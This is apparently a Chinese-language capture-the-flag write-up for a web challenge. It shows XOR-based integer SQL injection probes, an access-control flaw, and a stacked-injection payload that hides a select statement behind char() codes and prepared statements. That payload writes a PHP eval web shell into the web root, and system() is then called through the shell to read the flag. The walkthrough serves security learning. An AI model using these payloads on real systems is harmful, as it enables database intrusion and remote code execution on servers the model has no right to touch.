








##  思路

1. 打开网页显示如下，有登录和注册框。注册账号登录后，有用户信息和编辑头像两个选项。






2. 点击用户信息，url中有id=2，这种情况很有可能存在sql注入，而且很可能是整型注入。

   

   修改id=2^1^1，可以正常显示；id=2^1，页面上无数据。说明存在整型注入。

   这里输入id=1,可以显示admin的信息，说明还存在越权漏洞。

   输入id=2-1和id=1显示结果一致。

3. 点击编辑头像，可以选择文件上传。说明可能存在文件上传漏洞。

   

   这里只能上传.jpg|.jpeg|.png|.gif类型的文件，而且是前端检测。

   使用bp拦截后，修改文件后缀再上传，仍然显示上传的jpg后缀文件。而且这里不管上传什么文件，都是下面这个文件名。

   `文件上传成功，保存于：../favicon/098f6bcd4621d373cade4e832627b4f6.jpg Mysql error!`

4. 继续考虑sql漏洞。

   利用异或注入时，按照常规思路，测试`id=2^1^(ascii(substr(database(),1,1))>0)`
   
   但页面上无任何内容显示，如下：
   
   
   
   测试`id=2^1^(if(ascii(mid(user(),1,1))>0,1,0))`,页面正常显示。
   
   
   
   说明这里会过滤一些关键字。（如何fuzz发现其他被过滤的关键字）
   
5. 堆叠注入。会过滤掉select。--》使用sql预处理

   格式：

   ```sql
   set @sql=concat();
   prepare s1 from @sql;
   execute s1;
   ```

   **新思路：**利用select into outfile  将一句话木马写入文件。

   `select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php';`

   将上面的sql转成char（避免select被过滤）。

​		`?id=2;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare query from @sql;execute query;`

6. 访问上传的shell.php，并post请求，利用system()命令获取信息。如下，flag应该存在WelL_Th1s_14_fl4g中。



7. 获取flag。

   

## 总结

- 本题利用堆叠注入，且select被过滤，可以使用sql的预处理语句。
- select *** into outfile  ‘(文件路径)’  将一句话写入文件
- 将字符串转换成对应ascii码，再利用char()函数--》绕过select过滤。
- 该题与**[强网杯 2019]随便注**有类似之处